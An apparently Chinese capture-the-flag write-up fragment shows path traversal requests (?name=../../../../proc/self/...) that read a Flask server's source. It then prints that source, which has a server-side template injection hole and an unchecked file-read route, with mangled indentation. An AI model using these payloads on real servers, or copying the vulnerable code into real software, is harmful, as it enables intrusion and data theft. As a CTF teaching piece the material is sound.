 利用脚本配合key伪造session

### 解题：

```
?name=../../../../proc/self/cmdline 
```

得pythonserver.py

```
?name=../../../../proc/self/cwd/server.py 
```

得

```
 import os
from flask import (Flask, render_template, request, url_for, redirect, session, render_template_string)
from flask_session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')
FLAG = flag
app.secret_key = key 

@app.route("/n1page", methods=["GET", "POST"])

def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None
    if n1code is not None: 
    	n1code = n1code.replace(".", "").replace("_", "").replace("{", "").replace("}", "")
	if "n1code" not in session or session['n1code'] is None: session['n1code'] = n1code
	template = None
	if session['n1code'] is not None: 
		template = 
		'''
		<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> 
		''' %
		session['n1code']
		session['n1code'] = None
		return render_template_string(template) 

@app.route("/", methods=["GET"])

def index(): 
	return render_template("main.html") 

@app.route('/article', methods=['GET'])

def article(): 
	error = 0

if 'name' in request.args:
    page = request.args.get('name') else:
    page = 'article'
if page.find('flag') >= 0: page = 'notallowed.txt'
try:
    template = open('/home/nu11111111l/articles/{}'.format(page)).read() except Exception as e:
    template = e
	return render_template('article.html', template=template)

```